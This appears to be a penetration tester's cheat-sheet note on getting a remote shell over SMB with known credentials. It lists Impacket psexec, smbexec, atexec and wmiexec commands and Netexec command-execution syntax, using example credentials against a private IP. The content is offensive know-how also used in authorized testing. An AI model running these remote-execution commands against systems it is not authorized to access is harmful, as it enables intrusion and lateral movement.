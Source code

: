 -- -
Get a shell on remote system via SMB. This is for when you have valid credentials but no SSH or RDP access and you want to get a shell on the system. From a windows sysem, you can use the actual PSExec Sysinterals tool located [here](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec). Otherwise, from Linux, you can use one of the following tools which implement similar functionality albeit in slightly different ways: ^98f86e
1. Impacket PsExec
2. Impacket SMBExec
3. Impacket atexec
4. Netexec
5. Metasploit PsExec
### Impacket
```bash
# same syntax for all 3

# PsExec
impacket-psexec <user>:'<passwd>'@<ip> 
impacket-psexec administrator:'Password123!'@10.10.110.17
impacket-psexec [domain]/[user]:'[passwd]'@[ip]

# SMBExec
impacket-smbexec <user>:'<passwd>'@<ip>
impacket-smbexec administrator:'Password123!'@10.10.110.17

# atexec
impacket-atexec <user>:'<passwd>'@<ip>
impacket-atexec administrator:'Password123!'@10.10.110.17

# wmiexec
impacket-wmiexec [domain]/[user]:'[passwd]'@[ip]
```

^2f3c64

### Netexec
```bash
# if --exec-method is not definied, it defaults to "atexec"
netexec smb <ip> -u <user> -p '<passwd>' -x '<cmd>' --exec-method smbexec
netexec smb <ip> -u <user> -p '<passwd>' -x '<cmd>' --exec-method atexec

netexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
netexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method atexec
```

^5193b2
